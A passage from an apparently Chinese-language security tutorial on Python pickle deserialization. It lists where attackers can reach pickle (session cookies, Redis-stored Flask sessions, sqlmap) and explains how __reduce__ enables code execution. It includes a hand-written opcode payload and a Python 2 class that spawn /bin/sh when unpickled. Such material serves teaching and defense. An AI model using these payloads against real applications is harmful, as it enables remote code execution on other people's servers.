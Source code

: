 ## 可以利用的方向&思路

pickle的应用场景其实很广泛

- 解析认证token, session时；参见：[掌阅iReader某站Python漏洞挖掘](https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html)（一个redis+python反序列化的栗子
- 可能将对象pickle后存储成磁盘文件
- 可能将对象pickle后在网络中传输
- 可能会通过参数传递给程序；参见：[sqlmap的代码执行漏洞](https://blog.knownsec.com/2015/12/sqlmap-code-execution-vulnerability-analysis/)

这里说一下第一点，flask配合redis在服务端存储session（以pickle序列化形式进行存储），如果通过cookie进行请求session_id时，session种的内容就会被反序列化。理论上没问题，但如果出现redis的未授权访问，就可以通过自己设计恶意的session，然后再设置cookie去请求session时，我们自定的内容就会被反序列化，达到了rce的目的。

构造反序列化的payload离不开`__reduce__`这个魔术方法（上文简单的提到过），它是新式类（内置类）特有的方法（关于更多python元类相关的知识可以参考stackoverflow的这篇帖子：[What are metaclasses in Python?](https://stackoverflow.com/questions/100003/what-are-metaclasses-in-python)）

————在python2有两种声明类的方式，并且它们实例化的对象性质是不同的

![image-20210809005621153](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809005621153.png)

python3中消除了两者的区别，表现为第二种

![image-20210809005849080](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809005849080.png)

回到关于`__reduce__`的问题，只要在新式类中定义一个 `__reduce__` 方法，我们就能在序列化的使用让这个类根据我们在`__reduce__` 中指定的方式进行序列化。指定的关键就在于该方法的返回值上：一个`callable`可调用的对象，一个是` ([para1, para2, ...])[, ...])`，该对象所需的参数元组；最简单的例子是`return (os.system, ('ls',))`。`__reduce__` 方法与opcode中的R指令码关系密切，可以说PVM的R指令码就是`__reduce__`的返回值的一个底层实现。

### 此处上一个简单的小栗子

```python
# shell.pickle
cos
system
(S'/bin/sh'
tR.
```

![image-20210809002248690](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809002248690.png)

上面手写的opcode成功返回了sh的shell；而通过dumps和loads实现则是这样；我们执行的代码都在`__reduce__`中

```python
# py2
import pickle
import os
class A(object):
    def __reduce__(self):
        a = '/bin/sh'
        return (os.system,(a,))
a = A()
test = pickle.dumps(a)
print test
pickle.loads(test)
```

